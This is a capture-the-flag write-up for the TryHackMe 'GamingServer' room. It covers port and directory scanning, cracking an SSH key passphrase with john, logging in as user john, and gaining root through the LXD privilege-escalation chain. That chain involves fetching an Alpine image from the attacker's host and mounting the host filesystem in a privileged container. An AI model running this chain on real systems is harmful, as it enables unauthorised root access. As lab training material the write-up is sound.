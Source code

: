 
# GamingServer


writeup of the room GamingServer in TryHackMe

first start by doing a port scan

```bash
rustscan $IP
```
results:
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
```python
python ssh2john.py SecretKey > id_rsa.hash
```
and then crack it using john and rockyou wordlist
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
Session completed
```
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
```bash
ssh john@$IP -i ./SecretKey
```
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag
```bash
cat user.txt
a****************e
```
after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
then start a simple web server
```bash
python -m SimpleHTTPServer
```
then download the files you just downloaded locally
```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```
replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 
```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```
then spawn a root shell by running this list of commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```
now get the root flag 
```bash
cat mnt/root/root/flag.txt
2************c
```
if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
